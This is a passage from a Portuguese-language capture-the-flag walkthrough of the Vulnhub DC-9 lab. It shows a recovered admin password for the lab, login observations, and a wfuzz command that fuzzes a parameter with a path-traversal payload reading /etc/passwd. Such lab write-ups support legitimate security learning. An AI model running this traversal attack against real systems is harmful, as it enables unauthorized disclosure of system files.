 > admin:transorbital1


\newpage

* Conseguimos logar na aplicacao com a senha que encontramos. Uma coisa nos chama atencao apos o login, logo em baixo tem uma mensagem de "File does not exist", o que nos faz crer que a aplicacao esta tentando chamar um arquivo, o qual ela nao encontrou.

![](/assets/img/Vulnhub/DC-9/login-admin.png)


\newpage

### LFI


* Sabendo que a aplicacao esta tentando buscar um arquivo, podemos tentar um LFI. Porem nao sabemos qual e o parametro para podermos passar na URL. Entao vamos fazer um bruteforce para descobrir o parametro e se a aplicacao e vulneravel a LFI

```bash
wfuzz -c --hw 78 -b PHPSESSID=af98686t7fb2avab1kplgu2kp8 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.150.111/welcome.php?FUZZ=../../../../../../../../../../etc/passwd
```
